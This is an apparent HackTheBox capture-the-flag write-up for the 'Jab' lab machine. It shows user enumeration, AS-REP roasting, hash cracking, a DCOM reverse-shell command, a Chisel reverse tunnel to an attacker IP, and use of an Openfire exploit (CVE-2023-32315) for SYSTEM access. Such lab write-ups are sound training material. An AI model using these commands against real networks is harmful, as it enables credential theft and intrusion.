


# HackTheBox - Jab

 

## Table of Contents

- [Enumeration](#Enumeration)
    - [Portscan](#Portscan)
    - [Kerbrute Userenum](#Kerbrute-userenum)
- [Foothold](#Foothold)
    - [AS-REP Roasting](#AS---REP-Roasting)
    - [Crack Hash](#Crack-Hash)
    - [Bloodhound](#Bloodhound)
    - [Jabber-Login](#Jabber-Login)
    - [DCOM Exec](#DCOM-Exec)
- [Privilege Escalation](#Privilege-Escalation)
    - [Local Ports](#Local-Ports)
    - [Port Forwarding](#Port-Forwarding)
    - [Openfire - Login](#Openfire---Login)
    - [CVE-2023-32315](#CVE---2023---32315)
- [Resources](#Resources)

 
 

## Enumeration

### Portscan

As always, I started with a port scan.

We see all kinds of ports open.

Ports like `88` tell us that we are probably dealing with a domain controller here.

The following ports are also interesting.

It seems that a Jabber server is running here, which also fits the name of the box.

 

### Kerbrute userenum

First I try to enumerate SMB on Windows machines, but without credentials this does not work here.

So I used [kerbrute](https://github.com/ropnop/kerbrute) to search for existing users and used the [jsmith.txt](https://github.com/insidetrust/statistically-likely-usernames) list.

__Command:__ `./kerbrute_linux_amd64 userenum --dc dc01.jab.htb -d jab.htb -v jsmith.txt`

I found 1701 valid usernames.

 
 

## Foothold

My first idea with so many users was to try __Password Spraying__, but that didn't work.

 

### AS-REP Roasting

Next, I tried AS-REP Roasting.

__Command:__ `impacket-GetNPUsers -dc-ip <IP> jab.htb/ -usersfile users.txt -format hashcat -outputfile hashes.txt`

I got 3 hashes from users who had pre-authentication disabled.

 

### Crack Hash

The hash was quickly cracked with the __rockyou.txt__ list.

__Command:__ `hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt`

 

### Bloodhound

Now that I had a valid user, I enumerated the AD using `bloodhound-python` to be able to look at different things in Bloodhound.

__Command:__ `bloodhound-python -u <USERNAME> -p <PASS> -ns <IP> -d jab.htb -c all --zip`

 

### Jabber Login

Now that I had valid credentials, I started using them on SMB out of habit and got a bit stuck.

Until it occurred to me that we have a Jabber server here...

There are many Jabber clients, I used the Jabber client __Pidgin__ and checked whether I could log in to the server with the credentials.

I opened Pidgin and added my account and the domain of the server to the client.

We get a new window.

We are successfully logged in!

However, our user does not seem to be the most liked employee in our fictitious company here, as we are looking at an empty friends list.

So how does this help us now?

It gets interesting when we go to "Tools" -> "Room List" -> "Get List" to search for rooms / group chats.

The room __pentest2003__ sounds interesting and I took a look inside.

We see here a conversation between two users who are talking about their pentest and we get the password of the service account `svc_openfire` through their cracking work.

 

### DCOM Exec

Now I had two accounts but had not found a way to establish a shell.

Bloodhound helped me at this point by marking the new user as "Owned" and selecting "Shortest Paths to Domain Admins from Owned Principals".

The impacket Suite provides us with a tool with which we can now use this method.

__Command:__ `impacket-dcomexec -object MMC20 -silentcommand -debug JAB/svc_openfire:<PASS>\@<IP> 'powershell.exe -e <BASE64_ENCODED_REV-SHELL>'`

I got a reverse shell and the first flag.

 
 
 

## Privilege Escalation

The Privilege Escalation took a bit of time for me and in some places it was a bit confusing.

First of all, I enumerated the system and searched for AD PrivEsc paths and misconfigurations.

However, the PrivEsc also continued with the Jabber theme...

 

### Lokal Ports

When I did network enumeration and looked for ports that only listen locally on the machine I found two interesting two ports `9090` and `9091`.

__Command:__ `netstat -ano | findstr 127`

I used `curl.exe` to test whether a web server was running here.

 

### Chisel - Port Forwarding

Now I use __Port Forwarding__ with __Chisel__ to access the service locally on my machine.

__On Attack Machine:__ `chisel server -p 9009 --reverse`

__On Box:__ `.\chisel.exe client 10.10.15.48:9009 R:9090:127.0.0.1:9090 R:9091:127.0.0.1:9091`

 

### Openfire - Login

Now I could look on my computer what is behind this port and saw the login page to __Openfire__, an __XMPP server__.

We also see a version number which is always useful for finding suitable exploits.

I used the credentials we used before from user `svc_openfire` and logged in.

 

### CVE-2023-32315

I found out that this version is vulnerable to __CVE-2023-32315__ which can lead to __RCE__.And on Github I found an [exploit](https://github.com/miko550/CVE-2023-32315) and the necessary instructions to obtain __RCE__.

I uploaded the exploit / plugin...

...and now received __RCE__ as __NT AUTHORITY\SYSTEM__.

Finally, I established a last reverse shell from here and took the final flag.

 
 
 

## Resources

Finally, I would like to add a few external resources here which helped me to master the box and further discuss the exploit and XMPP pentesting.

- [XMPP underappreciated attack surface](https://bishopfox.com/blog/xmpp-underappreciated-attack-surface)
- [Path Traversal in Openfire leads to RCE](https://www.vicarius.io/vsociety/posts/cve-2023-32315-path-traversal-in-openfire-leads-to-rce)
- [https://github.com/miko550/CVE-2023-32315](https://github.com/miko550/CVE-2023-32315)
